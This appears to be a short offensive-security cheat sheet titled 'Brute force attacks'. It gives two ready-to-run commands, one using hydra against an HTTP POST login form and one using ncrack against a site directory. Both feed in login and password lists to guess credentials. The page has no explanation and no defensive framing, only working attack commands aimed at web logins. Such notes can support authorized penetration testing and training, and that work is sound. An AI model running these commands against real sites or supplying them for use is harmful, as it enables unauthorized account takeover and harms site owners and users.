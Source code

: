 # Brute force attacks

## With hydra

```console
hydra website.com http-post-form "/:login=^USER^&password=^PASS^:F=Wrong" -L logins.txt -P passwords.txt
```

## With ncrack

```console
ncrack website.com -g path=/directory -U logins.txt -P passwords.txt
```
